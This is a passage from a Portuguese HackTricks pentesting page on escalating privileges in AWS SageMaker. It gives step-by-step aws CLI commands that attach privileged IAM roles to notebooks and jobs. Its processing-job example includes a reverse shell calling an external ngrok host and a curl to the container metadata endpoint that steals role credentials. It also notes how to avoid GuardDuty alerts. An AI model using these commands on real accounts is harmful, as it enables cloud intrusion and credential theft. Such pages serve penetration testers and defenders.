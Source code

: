 # AWS - Sagemaker Privesc

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>

## sagemaker

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

O primeiro passo neste processo de ataque é **identificar uma função que confie no SageMaker para assumi-la** (sagemaker.amazonaws.com). Uma vez feito isso, podemos executar o seguinte comando para criar um novo notebook com essa função anexada:

```
aws sagemaker create-notebook-instance --notebook-instance-name example \
    --instance-type ml.t2.medium \
    --role-arn arn:aws:iam::ACCOUNT-ID:role/service-role/AmazonSageMaker-ExecutionRole-xxxxxx
```

Se for bem-sucedido, você receberá o **ARN da nova instância do notebook** na resposta da AWS. Isso levará **alguns minutos** para ser concluído, mas assim que for concluído, podemos executar o seguinte comando para obter uma URL pré-assinada para obter **acesso à instância do notebook por meio de nosso navegador da web**. Existem potencialmente outras maneiras de obter acesso, mas esta é uma única permissão e uma única chamada de API, então parecia simples.

```bash
aws sagemaker create-presigned-notebook-instance-url \
    --notebook-instance-name <name>
```

Se esta instância estiver totalmente configurada, esta chamada de API retornará uma **URL assinada que podemos visitar** em nosso navegador para acessar a instância. Uma vez na página Jupyter em meu navegador, clicarei em "Open JupyterLab" no canto superior direito, que pode ser visto na captura de tela a seguir.

![](<../../../.gitbook/assets/image (15) (1).png>)

Na próxima página, role até o final na guia “Launcher”. Na seção “Outros”, clique no botão “Terminal”, que pode ser visto aqui.

![](<../../../.gitbook/assets/image (27).png>)

A partir do terminal, temos algumas opções, uma das quais seria apenas **usar o AWS CLI**. A outra opção seria **entrar em contato com o serviço de metadados do EC2** para as credenciais da função IAM diretamente e exfiltrá-las.

GuardDuty pode vir à mente ao ler “exfiltrá-las” acima, no entanto, na verdade não precisamos nos preocupar com o GuardDuty aqui. A descoberta relacionada do GuardDuty é [“UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration”](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty\_unauthorized.html#unauthorized11), que alertará se as credenciais de uma função forem roubadas de uma instância EC2 e usadas em outro lugar. Felizmente para nós, esta instância EC2 na verdade não está em nossa conta, mas sim é uma **instância EC2 gerenciada hospedada em uma conta de propriedade da AWS**. Isso significa que **podemos exfiltrar essas credenciais e não nos preocupar em acionar** os detectores do GuardDuty de nosso alvo.

**Impacto potencial:** Privesc para a função de serviço sagemaker especificada.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Semelhante ao exemplo anterior, se os **notebooks Jupyter já estiverem em execução** nele e você puder listá-los com sagemaker:ListNotebookInstances (ou descobri-los de qualquer outra maneira). Você pode **gerar uma URL para eles, acessá-los e roubar as credenciais conforme indicado na técnica anterior**.

```bash
aws sagemaker create-presigned-notebook-instance-url \
    --notebook-instance-name <name>
```

**Impacto potencial:** Privesc para a função de serviço sagemaker anexada.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Um atacante com essas permissões pode fazer com que o **sagemaker execute um job de processamento** com uma função sagemaker anexada a ele. O atacante pode indicar a definição do contêiner que será executado em uma **instância da conta ECS gerenciada pela AWS**, e **roubar as credenciais da função IAM anexada**.

```bash
# Eu carreguei uma imagem docker python no ECR
aws sagemaker create-processing-job \
    --processing-job-name privescjob \
    --processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
    --app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
    --role-arn <sagemaker-arn-role>

# Em meus testes, levou 10 minutos para receber o shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #Para obter as credenciais
```

**Impacto potencial:** Privesc para a função de serviço sagemaker especificada.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Um atacante com essas permissões poderá criar um job de treinamento, **executando um contêiner arbitrário** nele com uma **função anexada** a ele. Portanto, o atacante poderá roubar as credenciais da função.

{% hint style="warning" %}
Este cenário é mais difícil de explor